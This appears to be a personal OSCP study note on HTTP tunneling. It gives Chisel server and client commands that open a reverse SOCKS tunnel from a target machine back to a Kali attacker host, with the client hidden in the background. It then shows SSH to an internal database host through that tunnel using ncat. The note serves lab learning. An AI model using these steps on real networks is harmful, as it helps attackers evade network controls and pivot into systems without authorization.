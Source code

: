 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/3-http-tunneling/","updated":"2024-01-05T11:36:22.696+01:00"}
---
```


- Good for when only http is allowed
- Can't use SSH tunnel because of packet inspection
- Chisel creates a HTTP tunnel with SSH inside for encryption
- Chisel exists for all OSes and architectures which other tools like HTTPTunnel does not
- Chisel server listens on TCP port 1080 which is a SOCKS port

-----------
## Chisel HTTP Dynamic/Reverse Port Forwarding + SSH with SOCKS:
1. Get correct binary to target machine from https://github.com/jpillora/chisel/releases/
2. Start Chisel server on kali:
```
chisel server --port 8080 --reverse
```
3. Connect to server using Chisel client:
```
/tmp/chisel client 192.168.45.180:8080 R:socks > /dev/null 2>&1 &
```
4. Connect using SOCKS and win!
5. SSH with SOCKS using ncat:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
